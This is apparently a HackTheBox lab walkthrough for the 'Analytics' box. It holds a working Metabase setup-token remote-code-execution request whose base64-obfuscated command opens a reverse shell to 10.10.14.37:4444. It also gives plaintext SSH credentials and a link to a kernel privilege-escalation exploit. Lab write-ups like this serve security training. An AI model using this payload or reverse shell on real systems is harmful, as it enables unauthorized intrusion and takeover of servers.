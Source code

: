 # Analytics

## Intro

Analytics is an easy linux box from HackTheBox.

## User

Metabase setup token is accessible from the following.  

```
http://data.analytical.htb/api/session/properties
```

Payload reverse shell.  

```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 818

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzcvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

## Credentials

User

```
metalytics
```

Password

```
An4lytics_ds20223#
```

The above credentials are able to ssh into the box and not the container.  

## root

Ubuntu linux kernel 6.2.0 is vulnerable.  

```
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629
```

